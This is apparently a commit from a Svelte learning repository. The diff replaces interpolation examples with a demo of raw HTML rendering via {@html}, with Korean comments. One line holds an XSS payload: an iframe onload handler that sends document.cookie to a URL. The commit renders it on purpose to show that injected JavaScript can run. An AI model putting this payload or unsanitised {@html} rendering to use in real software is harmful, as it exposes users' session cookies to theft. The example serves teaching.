

Before and after one commit to thebluerat/svelte_study, a Svelte app in the folder svelte-test/: page / in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (0-641 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Svelte에 원시 HTML 작성하기

```diff
--- a/svelte-test/src/App.svelte
+++ b/svelte-test/src/App.svelte
@@ -1,18 +1,12 @@
-<!-- 보간법 -->
+<!-- Svelte에 원시 HTML 작성하기 -->
 
 <script>
-    let href = 'https://ttoobi.blog'
-    let name = 'ttoobi'
-    let value = 'New input value!'
-    let isUpperCase = false
+    let h1 = '<h1>Hello ttoobi</h1>'
+    let xss = '<iframe onload="document.location=`https://?${document.cookie}`"></iframe>'
+
+    // 외부에서 작성한 자바스크립트가 실행될 수 있다
 </script>
 
-<!-- <a href = "https://ttoobi.blog">ttoobi</a> -->
-<a {href}>{name}</a>
-<!-- 단방향 데이터에서는 속성과 데이터 이름이 같으면 속성을 생략할 수 있다 -->
-
-<!-- <input type = "text" value = "Default value"/> -->
-<input {value} on:input={e => value = e.target.value} />
-<!-- 화살표 함수는 인수가 하나이면 소괄호와 뒤의 중괄호를 생략할 수 있다. -->
-<input bind:value />
-<!-- 양방향 데이터는 속성과 데이터 이름이 같으면 데이터를 생략한다. -->
+{@html h1}
+<!-- at-sign html을 넣어서 html로 해석할 수 있게 보간 -->
+{@html xss}
```
